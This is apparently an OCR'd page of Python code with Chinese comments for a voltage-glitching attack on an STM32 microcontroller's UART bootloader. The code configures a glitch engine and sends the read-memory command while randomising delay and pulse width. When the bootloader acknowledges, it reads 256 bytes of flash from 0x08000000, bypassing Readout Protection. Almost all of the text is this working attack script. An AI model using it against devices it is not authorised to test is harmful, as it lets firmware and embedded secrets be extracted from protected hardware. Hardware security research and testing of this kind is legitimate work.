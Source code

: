 初始化 faultviz 服务与表单

```python
faultviz.start_view_service(port=12345) 
vt = faultviz.ViewWidget()
```

定义 Uart Bootloader 中地址格式转化函数

```python
def gen_addr(addr_int):
    addr_checksum = 0
    addr_bytes = addr_int.to_bytes(4,byteorder="big")
    for i in addr_bytes:
        addr_checksum ^= i
    return addr_bytes + addr_checksum.to_bytes(1,byteorder="big")
```

初始化串口小板

```python
s = serial.Serial('com50', 115200, parity=serial.PARITY_EVEN, timeout=0.5)
```

定义攻击函数

```python
def stm32_attack():
    ps_dev.gpio(GPIO.GPIO1, 0)
    time.sleep(0.3)
    ps_dev.gpio(GPIO.GPIO1, 1)
    glitch_delay = random.randint(990, 1050)
    glitch_pulse = random.randint(15, 30)
    
    ps_dev.engine_cfg(Engine.E1, [(0, glitch_delay), (1, glitch_pulse), (0, 1)], TRIGGER_MODE.RISE,1 ,6)    # 设置毛刺上升沿六次触发
    s.write(b'\x7f')
    res1 = s.readall().hex()
    
    ps_dev.arm(Engine.E1)        # 发送 0x11 0xEE 前激活毛刺
    s.write(b'\x11\xee')
    res2 = s.read(1).hex()
    if res2 == '79':             # 若返回 79 则表示成功绕过 RDP
        status = "Success"
        s.write(gen_addr(0x08000000))   # 发送要读取的地址
        res3 = s.read(1).hex()
        s.write(b'\xff\x00')            # 发送要读取的 size
        res4 = s.read(257).hex()        # 接收读取的数据
        result = res1+res2+res3+res4
        vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = str(result))
        return 0
        
    else:
        status = "Normal"
        result = res1 + res2  
        vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = str(result))
        return 1
```
